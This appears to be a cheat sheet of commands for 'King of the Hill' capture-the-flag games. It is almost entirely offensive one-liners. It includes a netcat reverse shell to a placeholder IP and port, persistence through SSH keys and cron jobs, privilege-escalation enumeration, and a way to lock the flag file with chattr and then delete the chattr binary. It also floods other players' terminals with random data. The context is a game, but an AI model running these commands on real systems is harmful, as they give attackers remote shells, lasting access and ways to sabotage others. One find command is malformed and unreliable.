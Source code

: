 0. Generic KoTH commands

https://www.crybit.com/kill-unwanted-tty-unix/

## Script:

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

`python -c 'import pty;pty.spawn("/bin/bash")'`

`for i in {1..10}; do echo "while true; do echo $USERNAME > /root/king.txt; sleep 10; done &" >> /tmp/tmuxa5asdrav.sh; echo "sleep 0.1" >> /tmp/tmuxa5asdrav.sh; done`

`chmod +x /tmp/tmuxa5asdrav.sh`

`/tmp/tmuxa5asdrav.sh && rm /tmp/tmuxa5asdrav.sh &`


## See processes bound to ports
`netstat -lntp`

## Keeping SSH access:
`ssh-keygen`

(If you don't have a full tty shell, you can instead generate a key on your machine and upload the id_rsa.pub to the authorized_keys)
on your machine:
`nano id_temp`

`chmod 600 id_temp`

`ssh -i id_temp USER@IP`

## Reverse shell:
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f`
## Find SUID stuff:
`find / -type -4000 > output.txt`

## Find commands you can run with sudo:
`sudo -l`

Note: you may need to specify full paths like `sudo /usr/bin/su` not just `sudo su`

## Find capabilities:
`getcap -r / 2>/dev/null`

## Messing with king.txt
`chattr +i king.txt; rm -rf /usr/bin/chattr`

`while true; do echo $USERNAME > /root/king.txt; sleep 0.1; done &`

`disown`

`while true; do chattr +i /root/king.txt; sleep 0.1; done &`

`crontab -e` then add above command `* * * * * COMMAND`

NOTE: sometimes root shells may not run commands as root. You may have to `sudo crontab` or find a way to get a 100% root shell even as root. You can also try manually adding it to /var/spool/cron/root and `chmod 600` it

## Messing with other players
`ls /dev/pts` then `cat /dev/urandom > /dev/pts/# &`

## Getting interactive shell:
`python -c 'import pty;pty.spawn("/bin/bash")'`

## Get chattr static binary that can be uploaded and run:
`wget https://www.busybox.net/downloads/binaries/1.31.0-defconfig-multiarch-musl/busybox-x86_64 -O busybox`

Upload file to machine

`sudo ./busybox chattr [-+]i FILE`

## Remove SUID:
`chmod 0755 FILE`

## Remove `sudo -i`:
`visudo`